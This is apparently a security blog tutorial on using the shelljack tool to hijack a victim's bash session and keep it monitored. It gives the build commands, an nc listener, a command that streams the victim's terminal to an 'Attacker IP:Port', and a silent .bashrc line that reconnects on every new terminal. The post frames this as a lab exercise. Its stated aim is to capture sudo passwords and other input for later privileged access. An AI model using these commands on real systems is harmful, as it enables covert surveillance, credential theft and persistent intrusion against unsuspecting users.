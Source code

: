 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

With these commands we compile shelljack dependencies.

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp Port
```

With this command we are setting up a listener with -l, putting the command in verbose with -v and with -p we are setting up the port.

Now on the victim's machine we need to know the PID (proccess ID) of the tty so that shelljack knows what to send us, in this case the shell, and thus be able to monitor everything that is written and executed on it:

```bash
tty
./shelljack -n Attacker IP:Port $$
```

With this command we are executing shelljack to connect us to that IP and that port.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc_1.png)

Attacker:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n Attacker IP:Port $$ &>/dev/null
```

What is inside .bashrc will be executed every time the user opens a terminal, so if we put the command to connect with shelljack, we will get persistence.

This is very useful when it comes to maintaining persistence because if we hide the shelljack well on the victim machine, we can wait for them to enter the sudo password, or edit a file or anything like that to get information or enter later with privileges.
